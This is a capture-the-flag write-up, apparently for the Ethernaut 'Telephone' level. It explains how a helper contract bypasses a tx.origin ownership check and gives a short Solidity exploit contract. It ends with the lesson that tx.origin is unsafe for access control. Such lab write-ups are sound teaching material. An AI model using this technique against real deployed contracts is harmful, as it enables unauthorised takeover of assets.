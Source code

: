Level 4: Telephone

Objective:

Claim ownership of the contract instance.

Concept:

Using of an Helper contract

Explanation:

So this contract is preventing us from becoming the owner by checking tx.origin but we can bypass that using a helper contract.

Solution:

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
function changeOwner(address \_owner) external;
}

contract TelephoneHack {
function attack(address target) public {
Telephone(target).changeOwner(msg.sender);
}
}

after deploying call the attack function after which you will be the new owner.

Key Takeaways:

tx.origin is dangerous for access control.
